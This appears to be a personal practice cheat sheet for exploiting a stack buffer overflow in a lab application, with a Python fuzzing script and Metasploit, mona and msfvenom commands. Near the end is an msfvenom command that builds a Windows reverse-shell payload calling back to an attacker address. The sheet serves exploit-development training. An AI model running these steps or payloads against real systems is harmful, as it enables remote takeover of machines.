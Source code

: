 ## LOOK AT ~/BOPractice/VulnApp1


### Fuzz to make crash
```
#!/usr/bin/python

import socket

filler = "A" * 6000
#shellcode = "D" * 324
#jump = "\x03\x15\x10\x41"
#jump = "CCCC"
#shellcode = "D" * 360


buff = filler.encode() 
#buff = badchars

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.211.55.3", 7001))
s.send(buff)
s.close()
```

### Create Pattern to find offset
```
msf-pattern_create -l ###
```

### Locate Bytes in EIP 
```
msf-pattern_offset -l 800 -q 42306142
```

### Confirm by adding B's in EIP spot and send

### Find bad chars
Send it to the application

In Immunity Debugger, make mona create a list of badchars :
```
!mona bytearray –cpb “\x00”
```
The console output will tell you where it has been saved.

Compare this file with the stack contents :
```
!mona compare -a ESP -f <file_with_bad_chars>
!mona compare -a [ADDRESS OF SHELLCODE]-f bytearray.txt
```

### Find JMP ESP

Manual method
List modules
```
!mona modules
```

Get jump as assembly
Theres various jumps that will work
https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/

jump (or call) ESP

pop return

push return

jmp [reg + offset]


```
msf-nasm_shell
nasm > jmp esp
```
Locate it with
```
!mona find -s “\xff\xe4” -m “libspp.dll”
```


Auto??
```
!mona jmp -r esp
```
### Put JMP in LITTLE ENDIAN!!

### Test Shellcode with D's

### Replace shellcode

Don't forget nopsled
```
msfvenom -n 24 -p windows/shell_reverse_tcp LHOST=192.168.133.128 LPORT=80 -f python -o shellcode.py -b '\x00'

msfvenom -p windows/exec -b '<badchars>' -f python --var-name shellcode_calc \
CMD=calc.exe EXITFUNC=thread
```
